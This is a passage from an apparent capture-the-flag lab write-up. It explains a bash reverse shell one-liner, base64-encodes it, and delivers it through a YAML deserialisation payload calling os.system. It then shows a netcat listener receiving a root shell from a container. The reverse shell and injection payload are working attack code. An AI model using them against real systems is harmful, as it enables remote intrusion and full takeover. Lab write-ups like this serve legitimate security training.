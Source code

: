 Before we update our payload, let's have a look at the reverse shell one liner in more detail. The first part `/bin/bash -i` is invoking the bash shell with the `-i` flag which is used to launch an interactive shell. The next part `>& /dev/tcp/<IP-ADDRESS>/<PORT>` is redirecting the output of the bash shell to a TCP connection. The last part `0>&1` is redirecting the input of the bash shell to the output of the TCP connection.

As we are sending the payload as a HTTP POST request, we must be careful with url encoding. Thee redirecting is using a `&` which is a special character in HTTP requests. Because of this we are going to base64 encode our payload and then decode it and pipe it back to bash to execute. The command looks something like this:

```bash
echo "<BASE64>" | base64 -d | bash
```

Putting this altogether, we get the following payload:

```bash
elit3hex0r@public-terminal:/$ echo "/bin/bash -i >& /dev/tcp/192.168.109.68/9090 0>&1" | base64
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMTA5LjY4LzkwOTAgMD4mMQo=
```

And we are going to drop the remaining manifest config for our payload and submit the following:

```yaml
!!python/object/new:os.system [ echo "L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMTA5LjY4LzkwOTAgMD4mMQo=" | base64 -d | bash ]
```

Before we do, setup a netcat listener again on our `public-terminal`.

```bash
elit3hex0r@public-terminal:/$ nc -lnvp 9090
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:9090
Ncat: Listening on 0.0.0.0:9090
```

![Reverse Shell](./images/13-reverse-shell.png)

```bash
elit3hex0r@public-terminal:/$ nc -lnvp 9090
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:9090
Ncat: Listening on 0.0.0.0:9090
Ncat: Connection from 192.168.109.66:39198.
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@yamlidator-78f7dfb58f-564rx:/#
```

Excellent we have obtained a reverse shell on `yamlidator` which is running as `root`.

### Step 4: Enumerating the container filesystems and discover the first flag

Enumerating the filesystem we can see that we are in a container called `yamlidator` and not `pod-checker`. It would seem that `pod-checker` has called a vulnerable service. We can see the code in the `app.py` and where the vulnerability is.

